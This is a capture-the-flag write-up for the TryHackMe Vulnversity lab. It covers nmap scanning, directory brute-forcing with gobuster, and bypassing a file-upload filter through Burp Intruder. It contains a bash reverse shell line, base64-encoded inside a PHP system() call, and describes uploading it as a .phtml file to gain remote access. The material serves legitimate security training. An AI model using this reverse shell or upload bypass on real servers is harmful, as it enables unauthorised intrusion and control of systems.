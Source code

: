 # Vulnversity Write-Up

![]()

Vulnversity is a Easy machine on tryhackme. This is a beginner level box to learn about recon, web app attacks and basic privilege escalation
---

## Deploy Machine

You may follow along this write up here on [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

### Connect via OpenVPN

If you are not subscribed yet on tryhackme, you may access all of the free rooms. If so, you need to connect your kali or any other pentesting distro to tryhackme network.

Connect to openvpn in order to recon and attack the machine.

if you are using the latest kali 2020.2:

```
sudo openvpn --config /path/to/openvpn_file.ovpn
```

![]()

To verify your connection, you may ping the ip_address of the machine indicated on your session.

To know your private address on the openvpn configuration, just type on the terminal:
```
ifconfig tun0
```

---

## Reconnaissance, Enumeration and Initial Access

In manual penetration testing, the first phase is to enumerate open ports. We can use the [nmap](https://nmap.org) tool to scan for open ports.

Create a directory to store the nmap file
```
mkdir nmap
nmap -sV -sC -oA nmap/vulnversity -v <ip_address>
```

Even the scanning is not done, we can see all of the open ports on the machine if we specify the -v flag on nmap.

![]()

To learn what services running, we can wait until the scanning is finished.

![]()

As we can see here, the Apache (Web server) is running on port 3333. View more details on the [nmap directory]()

Open the ip address of the machine in a browser: http://ip_address:3333

![]()

Since we discovered that the machine is running a web server, we might need to check for hidden directories. On this challenge on tryhackme we are being introduced to some tools to locate hidden directories. But lets try the very basic first. 

http://ip_address:3333/robots.txt

![]()

We can't find any hidden directories. Our goal here is to find any web pages where we can upload our reverse shell to gain initial access to the server. There's a lot of tools available. But on this write-up I'll use gobuster.

If you are using kali 2020.2 you just need to run
```
sudo apt install gobuster -y
```

to install gobuster.

If you are using other pentesting distro, or lower versions of kali we might need to build it from scratch.

To install go lang, go to: [https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz](https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz)

or simply run:
```
curl -fsSo go1.14.6.linux-amd64.tar.gz https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz
```

Install go:
```
sudo tar -C /usr/local -xzf go1.14.6.linux-amd64.tar.gz
```
Now we need to put the path so we can call the "go" command on terminal without going to the absolute path and run the source:
```
echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.bashrc
source .bashrc
```

You may check [golang documentation](https://golang.org/doc/install) for more details here.

Now we installed go lang, we do not need to build it from source. Just download the dependencies (Much easier right?)
```
cd /opt
sudo git clone https://github.com/OJ/gobuster
cd gobuster
sudo go get && sudo go build 
```

If you want to put it in path, just export it:
```
echo "export PATH=$PATH:/usr/local/go/bin:/opt/gobuster/gobuster"
```

To verify your installation make sure that you will see the helpscreen:
```
gobuster --help
```

Now use gobuster to bruteforce hidden directories on the server:
```
gobuster dir -u http://10.10.228.255:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![]()

We see that, all of the directories shown on the result. Now we can start check those directories. We will find that we can upload a file on https://ip_address:3333/internal/

![]()

We now need to check what is the extension type to upload so we can bypass the check. Webshells are present in /usr/share/web on kali. or if not you may use the php web shell on the link provided by tryhackme. 

Or why not create one?

```
echo "bash -i >& /dev/tcp/ip_address/port 0>&1" | base64 | xclip
echo '<?php echo system("echo sub | base64 -d | bash"); ?>' | sed s/sub/$(xclip -o)/g revshell.php
```

So now we have created a php reverse shell try and upload it on the server. We encode it to base64 since /bin/sh is not running on php, you'll have a problem on fds if you're not going to encode it.

![]()

The extension is not allowed. This is a common filtering to ensure that no other files can be uploaded on the server. But let us use BurpSuite to check what file extenstion can be uploaded on the server.

Following task 4 on Vulnversity, we will customized our attack by creating a simple dictionary for file extensions on burpsuite.

To setup burp, we just need to download foxy proxy as the extension and add a new proxy:

![]()

Once the proxy is setup, go back to http://ip_address:3333/internal/ and upload the anyfile without a .php extension. Don't submit yet since we need to ensure that we can intercept the browser traffic by capturing all traffic from foxyproxy to burpsuite.

![]()

After capturing and hitting submit, it will be redirected to burpsuite. Click on proxy > Action > Send to Intruder. After sending it to intruder, go to Positions tab > modify the extension to be blank. it should be:
```
anyfile.§§
```

![]()

Now go to Payloads tab and add these payloads and start attack:
```
php
php3
php4
php5
phtml
```

![]()

You will notice that phtml file has a different length than others. Also on the response tab we will see that it successfully uploaded the file.

![]()


Now we just need to rename our revshell.php to revshell.phtml and upload the file. create a listener and go to uploads directory on the web.
```
http://ip_address:3333/internal/uploads/revshell.phtml
```




